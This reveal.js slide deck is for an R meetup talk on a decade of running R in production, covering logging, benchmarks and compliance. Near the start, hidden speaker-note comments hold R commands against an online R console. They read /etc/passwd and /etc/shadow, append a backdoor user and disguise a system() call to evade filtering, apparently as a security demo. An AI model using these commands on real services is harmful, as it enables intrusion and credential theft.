




## dummy slide

<!--javascript to remove dummy slide-->
<script>
document.getElementById("dummy-slide").remove();
document.getElementById("coverslide").remove();
</script>

<!--end dummy slide-->
</section>

<section data-background-image="img/factory-light.webp"
         data-background-size="100%"
         id="coverslide">

<h1 class="subtitle" style="color:#333;font-size:2em;">
  Real Data Science USA - R Meetup
</h1>

<h1 class="title" style="color:#111;font-size:2.5em;padding-top:10%;">
  A Decade of Using R<br /> in Production<br/>
</h1>

<h2 class="author" style="color:#333;padding-top:5%;font-size:1.5em;">
  Gergely Daróczi
</h2>

<h3 class="date" style="color:#333;font-size:1.25em;">
  @daroczig
</h3>

</section>

<section>
<section class="titleslide slide level1" data-transition="slide-in none-out" data-background-image="img/1920x1080-white.jpg" data-background-size="100%">
<h2>$ whoami</h2>

<a href="https://daroczig.github.io" target="_new">
 
</a>

<a href="https://daroczig.github.io">daroczig.github.io</a>

## $ whoami {data-transition="none-in slide-out"}
<a href="https://daroczig.github.io/talks" target="_new">
  
</a>

## $ curl https://r.console


<!--
readLines('/etc/passwd')

system('whoami')
readLines('/etc/shadow')

list.files('/tmp')
list.files('/var/log')
-->

## # cat /etc/passwd

<a href="http://hackme.rapporter.net" target="_new">
    
</a>

<!--
http://54.80.162.109

list.files('/var/log')

cat('foo:easypass:3000:3000::/bin/bash', file = '/etc/passwd', append = TRUE)
readLines('/etc/passwd')
lapply('/etc/passwd', readLines)
lm(read.table('/etc/passwd'))

x1 <- 's'
x2 <- 'y'
x3 <- 't'
x4 <- 'e'
x5 <- 'm'
x <- paste0(x1, x2, x1, x3, x4, x5)
lm(sprintf("%s('echo hello > /tmp/xxx') ~ 1", x))
-->

## $ whoami {data-transition="slide-in none-out"}
<a href="https://system1.com/research" target="_new">
  
</a>

## $ whoami {data-transition="none"}
<a href="https://system1.com/research" target="_new">
  
</a>

## $ whoami {data-transition="none"}
<a href="https://system1.com/research" target="_new">
  
</a>

## $ whoami {data-transition="none"}
<a href="https://system1.com/research" target="_new">
  
</a>

## $ whoami {data-transition="none"}
<a href="https://system1.com/research" target="_new">
  
</a>

</section></section>

<section>
<section class="titleslide slide level1">
<h2>&#62; Sys.setenv(env = \"prod\")</h2>


## > ??production {data-transition="slide-in none-out"}

## > ??production {data-transition="none"}

* 2006: <b>Calling R scripts from PHP</b> (both reading from MySQL) to generate custom plots embedded in a homepage
* 2008: <b>Automated/batch R scripts</b> to generate thousands of pages of crosstables, ANOVA and plots from SPSS with `pdflatex`
* 2011: Ruby on Rails <b>web application</b> with `RApache` and `pandoc` to report in plain English (NoSQL databases, scaling, <b>security</b>, central error tracking etc)
* 2012: Plain RApache <b>web application</b> for NLP and network analysis
* 2015: Standardizing the data infrastructure of a fintech startup to use R for reporting, batch jobs, and <b>stream processing</b>
* 2017: Redesign, monitor and scale the DS infrastructure of an adtech startup for <b>batch training and live scoring</b>

## > production <<- list(...) {data-transition="slide-in none-out"}

## > production <<- list(...) {data-transition="none"}

<div style="text-align:left;margin-bottom:20px;">Using in R in a non-interactive way:</div>

* Running R <b>without manual intervention</b> (e.g. scheduled via CRON, triggered via upstream job trigger or API request)
* Need for a standard, e.g. <b>containerized environment</b> (pinned R and package versions, OS packages, `.Rprofile` etc)
* <b>Security</b>! (e.g. safeguarded production environment, encrypted credentials, aware of Little Bobby Tables, AppArmor etc)
* Job output is informative (logging), recorded (logging) and <b>monitored</b> (e.g. `error` handler for ErrBit, CloudWatch logs or Splunk etc), alerts and notifications

</section></section>

<section>
<section class="titleslide slide level1">
  <h2>&#62; isTRUE(interactive())</h2>
  <video width="60%" controls>
    <source src="https://video.twimg.com/tweet_video/CXSk_PVUEAAQQg9.mp4" type="video/mp4">
  </video>
  

## > traceback()

<div style="font-size: 1.25em;">
```r
$ Rscript super_important_business_stuff.R
```
</div>

<div class="fragment" style="font-size: 1.25em;">
```r
Error in l[[x]] : subscript out of bounds
Calls: g -> f
Execution halted
```
</div>

<div class="fragment" style="font-size: 1.25em;">
```r
Error in .subset2(x, i, exact = exact) : subscript out of bounds
Execution halted
```
</div>

## > tryCatch

* Use version control!
* Use CI/CD tools!
* Write clean code! DRY!
* Document! Open-source!
* Log everything! Snapshot everything!
* Security!
* Use a scalable job scheduler!
* Dockerize your environment!
* Pin your package versions!

<div class="fragment">
  Check out the "Productionizing R scripts in the cloud" at satRday LA 2019!
</div>

</section></section>

<section>
<section class="titleslide slide level1">
<h2>&#62; sessionInfo()</h2>

<div class="cols">
  <div class="col"></div>
  <div class="col"></div>
</div>


## > usethis::create_package


Source: <a href="https://thecodinglove.com/when-my-co-worker-wants-to-simplify-code-that-took" target="_new">When my co-worker wants to simplify code ...</a>

## > ??log

\scriptsize

```r
> library(data.table)
> packages <- data.table(available.packages())
> ## avoid analog, logit, (archeo|bio|genea|hydro|topo|...)logy
> packages[grepl('(?<!ana)log(?![it|y])', Package, perl = TRUE), Package]

 [1] "adjustedcranlogs"     "bayesloglin"          "blogdown"
 [4] "CommunityCorrelogram" "cranlogs"             "efflog"
 [7] "eMLEloglin"           "futile.logger"        "gemlog"
[10] "gglogo"               "ggseqlogo"            "homologene"
[13] "lifelogr"             "log4r"                "logbin"
[16] "logconcens"           "logcondens"           "logcondens.mode"
[19] "logcondiscr"          "logger"               "logging"
[22] "loggit"               "loggle"               "logKDE"
[25] "loglognorm"           "logmult"              "lognorm"
[28] "logNormReg"           "logOfGamma"           "logspline"
[31] "lolog"                "luzlogr"              "md.log"
[34] "mdir.logrank"         "mpmcorrelogram"       "PhylogeneticEM"
[37] "phylogram"            "plogr"                "poilog"
[40] "rChoiceDialogs"       "reactlog"             "rmetalog"
[43] "robustloggamma"       "rsyslog"              "shinylogs"
[46] "ssrm.logmer"          "svDialogs"            "svDialogstcltk"
[49] "tabulog"              "tidylog"              "wavScalogram"
```

---


---


## > demo(logger)

```r
library(logger)
log_threshold(DEBUG)
log_info('Script starting up...')
#> INFO [2018-20-11 22:49:36] Script starting up...

pkgs <- available.packages()
log_info('There are {nrow(pkgs)} R packages hosted on CRAN!')
#> INFO [2018-20-11 22:49:37] There are 13433 R packages hosted on CRAN!

for (letter in letters) {
    lpkgs <- sum(grepl(letter, pkgs[, 'Package'], ignore.case = TRUE))
    log_level(if (lpkgs < 5000) TRACE else DEBUG,
              '{lpkgs} R packages including the {shQuote(letter)} letter')
}
#> DEBUG [2018-20-11 22:49:38] 6300 R packages including the 'a' letter
#> DEBUG [2018-20-11 22:49:38] 6772 R packages including the 'e' letter
#> DEBUG [2018-20-11 22:49:38] 5412 R packages including the 'i' letter
#> DEBUG [2018-20-11 22:49:38] 7014 R packages including the 'r' letter
#> DEBUG [2018-20-11 22:49:38] 6402 R packages including the 's' letter
#> DEBUG [2018-20-11 22:49:38] 5864 R packages including the 't' letter
```

## > str(logger)


## > library(logger)


## > library(logger) {data-transition="slide-in none-out"}

<div class="cols">
  <div class="col"></div>
  <div class="col"></div>
</div>

## > library(logger) {data-transition="none-in slide-out"}

<div class="cols">
  <div class="col"></div>
  <div class="col"></div>
</div>

## > requireNamespace(logger)

```r
library(botor)
my_mtcars <- s3_read('s3://botor/example-data/mtcars.csv', read.csv)
#> DEBUG [2019-09-19 04:46:57] Downloaded 1303 bytes from s3://botor/example-data/mtcars.csv
#> and saved at '/tmp/RtmpLW4bY4/file63ff42ed2fe1'
```

<div class="fragment">
```r
log_threshold(TRACE, namespace = 'botor')
my_mtcars <- s3_read('s3://botor/example-data/mtcars.csv.gz',
                     read.csv, extract = 'gzip')
#> TRACE [2019-09-19 04:48:02] Downloading s3://botor/example-data/mtcars.csv.gz to
#> '/tmp/RtmpLW4bY4/file63ff17e137e9' ...
#> DEBUG [2019-09-19 04:48:03] Downloaded 567 bytes from s3://botor/example-data/mtcars.csv.gz
#> and saved at '/tmp/RtmpLW4bY4/file63ff17e137e9'
#> TRACE [2019-09-19 04:48:03] Decompressed /tmp/RtmpLW4bY4/file63ff17e137e9 via gzip
#> from 567 to 1303 bytes
#> TRACE [2019-09-19 04:48:03] Deleted /tmp/RtmpLW4bY4/file63ff17e137e9
```
</div>

## > requireNamespace(logger)

```yaml
sqlite:
  drv: !expr RSQLite::SQLite()
  dbname: !expr tempfile()
```

<div class="fragment">
```r
library(dbr)
str(db_query('SELECT 42', 'sqlite'))

#> INFO [2018-07-11 17:07:12] Connecting to sqlite
#> INFO [2018-07-11 17:07:12] Executing:**********
#> INFO [2018-07-11 17:07:12] SELECT 42
#> INFO [2018-07-11 17:07:12] ********************
#> INFO [2018-07-11 17:07:12] Finished in 0.0007429 secs returning 1 rows
#> INFO [2018-07-11 17:07:12] Closing connection to sqlite

#> 'data.frame':    1 obs. of  1 variable:
#>  $ 42: int 42
#>  - attr(*, "when")= POSIXct, format: "2018-07-11 17:07:12"
#>  - attr(*, "db")= chr "sqlite"
#>  - attr(*, "time_to_exec")=Class 'difftime'  atomic [1:1] 0.000743
#>   .. ..- attr(*, "units")= chr "secs"
#>  - attr(*, "statement")= chr "SELECT 42"
```
</div>

## > log_shiny_input_changes()

```r
library(shiny)
ui <- bootstrapPage(
    numericInput('mean', 'mean', 0),
    numericInput('sd', 'sd', 1),
    textInput('title', 'title', 'title'),
    plotOutput('plot')
)
server <- function(input, output) {
    logger::log_shiny_input_changes(input)
    output$plot <- renderPlot({
        hist(rnorm(1e3, input$mean, input$sd), main = input$title)
    })
}
shinyApp(ui = ui, server = server)
```

## > log_shiny_input_changes()

```shell
Listening on http://127.0.0.1:8080
INFO [2019-07-11 16:59:17] Default Shiny inputs initialized: {"mean":0,"title":"title","sd":1}
INFO [2019-07-11 16:59:26] Shiny input change detected on mean: 0 -> 1
INFO [2019-07-11 16:59:27] Shiny input change detected on mean: 1 -> 2
INFO [2019-07-11 16:59:27] Shiny input change detected on mean: 2 -> 3
INFO [2019-07-11 16:59:27] Shiny input change detected on mean: 3 -> 4
INFO [2019-07-11 16:59:27] Shiny input change detected on mean: 4 -> 5
INFO [2019-07-11 16:59:27] Shiny input change detected on mean: 5 -> 6
INFO [2019-07-11 16:59:27] Shiny input change detected on mean: 6 -> 7
INFO [2019-07-11 16:59:29] Shiny input change detected on sd: 1 -> 2
INFO [2019-07-11 16:59:29] Shiny input change detected on sd: 2 -> 3
INFO [2019-07-11 16:59:29] Shiny input change detected on sd: 3 -> 4
INFO [2019-07-11 16:59:29] Shiny input change detected on sd: 4 -> 5
INFO [2019-07-11 16:59:29] Shiny input change detected on sd: 5 -> 6
INFO [2019-07-11 16:59:29] Shiny input change detected on sd: 6 -> 7
INFO [2019-07-11 16:59:34] Shiny input change detected on title: title -> sfdsadsads
```

## > log_appender(appender_async(...))

* create a local, disk-based storage for the message queue via `txtq`
* start a background process for the async execution of the message queue with `callr`
* loads minimum required packages in the background process
* connects to the message queue from the background process
* pass actual `appender` function to the background process (serialized to disk)
* pass parameters of the async appender to the background process (eg batch size)
* start infinite loop processing log records
* check if background process still works ...

## > demo(logger)

* log levels
* log message formatter functions
* log record layout functions
* log message delivery functions
* namespaces
* stacking
* helpers
* ...

<div class="fragment">
  Check out the "Getting things logged" talk at RStudio::conf(2020)!
</div>

</section></section>

<section>
<section class="titleslide slide level1">
<h2>&#62; sample(projects, size = 5)</h2>


## > sample(projects, size = 5)


## > sample(projects, size = 5)


## > sample(projects, size = 5)


## > sample(projects, size = 5)


## > sample(projects, size = 5)


## > sample(projects, size = 5)


## > sample(projects, size = 5)


</section></section>

<section>
<section class="titleslide slide level1">
<h2>&#62; usethis::create_startup(...)</h2>


## > demo("rapporter.net") {data-transition="slide-in none-out"}


## > demo("rapporter.net") {data-transition="none"}


## > demo("rapporter.net") {data-transition="none"}


## > demo("rapporter.net") {data-transition="none"}


## > demo("rapporter.net") {data-transition="none"}


## > demo("rapporter.net")


## > demo("rapporter.net")


## > microbenchmark::microbenchmark(...)


Source: https://thecodinglove.com/when-i-launch-a-benchmark

## > microbenchmark::microbenchmark(...)

```r
## "benchmark" done with: a list holding 1500 elements (all holding 4 chars)
> system.time(rjson::toJSON(rjson::fromJSON(x)))
user  system elapsed
10.000   0.010  10.073

> system.time(RJSONIO::toJSON(RJSONIO::fromJSON(x)))
user  system elapsed
0.797   0.003   0.812

## RJSONIO all the way, but it is still slow :(
```

## > microbenchmark::microbenchmark(...)

```r
> txt  <- paste(sample(letters, 1e3, replace = TRUE), collapse = '')
> file <- tempfile()
> cat(txt, file = file)

> library(microbenchmark)
> ca <- function() caTools:::base64encode(txt)
> base64 <- function(letters) base64::encode(file)
> curl <- function() RCurl:::base64Encode(txt)
> microbenchmark(ca(), base64(), curl(), times = 1e3)

Unit: microseconds
     expr     min       lq      mean   median       uq     max neval cld
     ca() 261.102 277.7570 338.45346 290.5145 318.3690 2485.63  1000  b
 base64() 308.341 328.0395 392.70745 342.2250 380.6865 4295.81  1000   c
   curl()  73.837  79.4285  92.78261  84.8370  90.9490 1226.68  1000 a
```

## > microbenchmark::microbenchmark(...)



## > microbenchmark::microbenchmark(...)


## > help(microbenchmark)


Source: <a href="https://devopsreactions.tumblr.com/post/144290300487/the-one-that-doesnt-let-the-bad-practices-go">The one that doesn’t let the bad practices go</a>

## > microbenchmark::microbenchmark(...) {data-transition="slide-in none-out"}

<a href="https://stackoverflow.com/questions/4756989/how-to-load-data-quickly-into-r">
  
</a>

## > microbenchmark::microbenchmark(...) {data-transition="none"}

<a href="https://stackoverflow.com/questions/4756989/how-to-load-data-quickly-into-r">
  
</a>

## > plot(microbenchmark(...))

<a href="https://stackoverflow.com/questions/4756989/how-to-load-data-quickly-into-r">
  
</a>

## > ?alias


Source: <a href="https://devopsreactions.tumblr.com/post/150627947026/junior-dev-being-awesome">Junior dev being awesome</a>

</section></section>

<section>
<section class="titleslide slide level1" data-transition="none">
<h2>&#62; Sys.setlocale('en-US')</h2>

<a href="https://card.com" title="CARD.com" target="_new">
  
</a>

## > order('I-heart-R')

  

## > order(sample(n = 3))

  

## > str(platform)

  

## > str(stack)

  

## > debugonce()

  

## > usethis::create_package('fbRads')

  

## > usethis::create_packages('AWR')

  

## > predict(gbm, newdata = tx)

  

</section></section>

<section>
<section class="titleslide slide level1" data-transition="slide-in none-out">
<h2>&#62; git2r::commits()</h2>


## > git2r::commits() {data-transition="none-in slide-out"}


## $ groups {data-transition="slide-in none-out"}
<a href="https://system1.com/research" target="_new">
  
</a>

## $ groups {data-transition="none"}
<a href="https://system1.com/research" target="_new">
  
</a>

## $ research() {data-transition="none"}
<a href="https://system1.com/research" target="_new">
  
</a>

## > licence() {data-transition="none"}
<a href="https://system1.com/open-source" target="_new">
 
</a>

## > licence() {data-transition="none"}
<a href="https://mikata.dev" target="_new">
 
</a>

## > library(AWR.Snowflake) {data-transition="none"}

<a href="https://github.com/daroczig/AWR.Snowflake" target="_new">
 
</a>

## > microbenchmark() {data-transition="none"}


## > options(error = browser()) {data-transition="none"}


Source: <a href="https://devopsreactions.tumblr.com/post/71190963508/senior-vs-junior-sysadmin-during-an-outage">Senior vs junior sysadmin during an outage</a>

## > compare('spark', 'K8s', ...) {data-transition="none"}


## > compare('spark', 'K8s', ...) {data-transition="none"}


## > ls(envir = 'jobs') {data-transition="none"}


## > get('job') {data-transition="none"}


## > eval() {data-transition="none"}


## > eval() {data-transition="none"}


## > source() {data-transition="none"}


## > licence() {data-transition="none"}
<a href="https://system1.com/open-source" target="_new">
 
</a>

## > ls(envir = 'invocations') {data-transition="none"}


## > ls(envir = 'snapshots') {data-transition="none"}


## > hire() {data-transition="none"}
<a href="https://system1.com/careers" target="_new">
 
</a>

</section></section>

<section>
<section class="titleslide slide level1" data-transition="none">
<h2>&#62; demo("rx.studio")</h2>

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > demo("rx.studio") {data-transition="none-in slide-out"}

<a href="https://app.rx.studio" title="Rx Studio application" target="_new">
  
</a>

## > library(rx.studio) {data-transition="slide-in none-out"}

```
<!--head
meta:
  drug: ~
  method: ~
  target: ~
  title: Calculate corrected weight for CrCl estimation
  description: |
    Using the Cockcroft-Gault 40% Obesity Adjustment for patients who are
    greater than 30% of their ideal body weight.
  packages:
  - rx.studio
  examples:
  - list(HEIGHT = 174, WEIGHT = 72, SEX = 'Male')
inputs:
- !expr generate_input(type = 'HEIGHT')
- !expr generate_input(type = 'WEIGHT')
- !expr generate_input(type = 'SEX')
head-->

<%=
calc_cweight(HEIGHT, WEIGHT, SEX, adjthr = 1.3)
%>
```

## > library(rx.studio) {data-transition="none"}

<div class="cols">
  <div class="col">
```
<!--head
meta:
  drug: ~
  method: ~
  target: ~
  title: Calculate corrected weight for CrCl estimation
  description: |
    Using the Cockcroft-Gault 40% Obesity Adjustment for patients who are
    greater than 30% of their ideal body weight.
  packages:
  - rx.studio
  examples:
  - list(HEIGHT = 174, WEIGHT = 72, SEX = 'Male')
inputs:
- !expr generate_input(type = 'HEIGHT')
- !expr generate_input(type = 'WEIGHT')
- !expr generate_input(type = 'SEX')
head-->

<%=
calc_cweight(HEIGHT, WEIGHT, SEX, adjthr = 1.3)
%>
```
</div>

<div class="col"></div>
</div>

## > str("rx.studio")


## > is.compliant("rx.studio") {data-transition="slide-in none-out"}

  

  Source:
  <a href="https://thecodinglove.com/when-the-library-has-a-very-good-documentation" target="_new">
    the_coding_love -- When the library has good documentation
  </a>

## > is.compliant("rx.studio") {data-transition="none"}

  

  Source:
  <a href="https://devopsreactions.tumblr.com/post/50566447542/another-pci-dss-audit" target="_new">
    DevOps Reactions -- Another PCI DSS audit
  </a>

## > audit("rx.studio") {data-transition="slide-in none-out"}

```r
List of 1+
 $ use_common_sense: TRUE
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 2+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...)
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 2+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 2+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get |> apply
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 2+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get |> apply |> assert
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 3+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get |> apply |> assert
 $ data_management: List of 3+
  ..$ encrypt: List of 2
  .. ..$ in_transit: TRUE
  .. ..$ at_rest: TRUE
  ..$ document: TRUE
  ..$ PHI: identify()
  .. ..
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 4+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get |> apply |> assert
 $ data_management: List of 3+
  ..$ encrypt: List of 2
  .. ..$ in_transit: TRUE
  .. ..$ at_rest: TRUE
  ..$ document: TRUE
  ..$ PHI: identify()
  .. ..
  $ vendor_management: List of 3+
  ..$ cannot_live_without: TRUE
  ..$ security_assessment: TRUE
  ..$ BAA: TRUE
  .. ..
 ...
```

## > audit("rx.studio") {data-transition="none"}

```r
List of 5+
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get |> apply |> assert
 $ data_management: List of 3+
  ..$ encrypt: List of 2
  .. ..$ in_transit: TRUE
  .. ..$ at_rest: TRUE
  ..$ document: TRUE
  ..$ PHI: identify()
  .. ..
  $ vendor_management: List of 3+
  ..$ cannot_live_without: TRUE
  ..$ security_assessment: TRUE
  ..$ BAA: TRUE
  .. ..
 $ code_review: TRUE
 ...
```

## > audit("rx.studio") {data-transition="none-in slide-out"}

```r
List of Inf
 $ use_common_sense: TRUE
 $ policies: function(...) search(...) |> get |> apply |> assert
 $ data_management: List of 3+
  ..$ encrypt: List of 2
  .. ..$ in_transit: TRUE
  .. ..$ at_rest: TRUE
  ..$ document: TRUE
  ..$ PHI: identify()
  .. ..
  $ vendor_management: List of 3+
  ..$ cannot_live_without: TRUE
  ..$ security_assessment: TRUE
  ..$ BAA: TRUE
  .. ..
 $ code_review: TRUE
 $ unit_tests: TRUE
 $ integration_tests: TRUE
 $ code_coverage_tests: TRUE
 ...
```

##

<div style="text-align:left;">
  

  Source:
  <a href="https://twitter.com/romain_francois/status/1410886001539567616" target="_new">
    twitter.com/romain_francois/status/1410886001539567616
  </a>
</div>
## > readLines(\'frontend/es.po\', n=25)

```
# Copyright (C) 2020-2021 Rx Studio Inc.
msgid ""
msgstr ""
"Project-Id-Version: rx.studio.webapp 1.0\n"
"POT-Creation-Date: 2020-12-06 00:40\n"
"PO-Revision-Date: 2021-05-26 01:40:46\n"
"Last-Translator: Rx Studio <support@rx.studio>\n"
"Language-Team: Rx Studio <support@rx.studio>\n"
"Language: es\n"
"MIME-Version: 1.0\n"
"Content-Type: text/plain; charset=UTF-8\n"
"Content-Transfer-Encoding: 8bit\n"

msgctxt "account_verify.new_password"
msgid "New Password"
msgstr "Contraseña nueva"

#. User status meaning the user has subscribed to product updates/email newsletter.
msgctxt "common.subscribed"
msgid "Subscribed"
msgstr "Suscrito"
```

## > readLines(\'backend/pt.po\', n=25)

```
# Copyright (C) 2020-2021 Rx Studio Inc.
msgid ""
msgstr ""
"Project-Id-Version: rx.studio.models 1.0\n"
"POT-Creation-Date: 2020-12-06 00:40\n"
"PO-Revision-Date: 2021-06-22 03:45:21\n"
"Last-Translator: Rx Studio <support@rx.studio>\n"
"Language-Team: Rx Studio <support@rx.studio>\n"
"Language: pt\n"
"MIME-Version: 1.0\n"
"Content-Type: text/plain; charset=UTF-8\n"
"Content-Transfer-Encoding: 8bit\n"

msgid "Total maximum concentration"
msgstr "Concentração máxima total"

#. Drug name, only translate if has a local name or version in your language.
msgid "Cefepime"
msgstr "Cefepima"

#. The f prefix refers to free, so a shorthand for Free AUC to MIC ratio.
msgid "fAUC/MIC"
msgstr "fASC/CIM"
```

## > translations_read() |> summary()

```shell
$ pocount ~/projects/rx.studio-webapp/src/assets/i18n/po/es.po \
          ~/projects/rx.studio-models/inst/i18n/es.po

Type               Strings      Words (source)    Words (translation)
Translated:     383 (100%)       2498 (100%)            2979
Untranslated:     0 (  0%)          0 (  0%)             n/a
Total:          383              2498                   2979

Type               Strings      Words (source)    Words (translation)
Translated:     246 (100%)       1234 (100%)            1360
Untranslated:     0 (  0%)          0 (  0%)             n/a
Total:          246              1234                   1360

Processing file : TOTAL:
Type               Strings      Words (source)    Words (translation)
Translated:     629 (100%)       3732 (100%)            4339
Untranslated:     0 (  0%)          0 (  0%)             n/a
Total:          629              3732                   4339

File count:       2
```

## > testthat::test_package()

  

  Source:
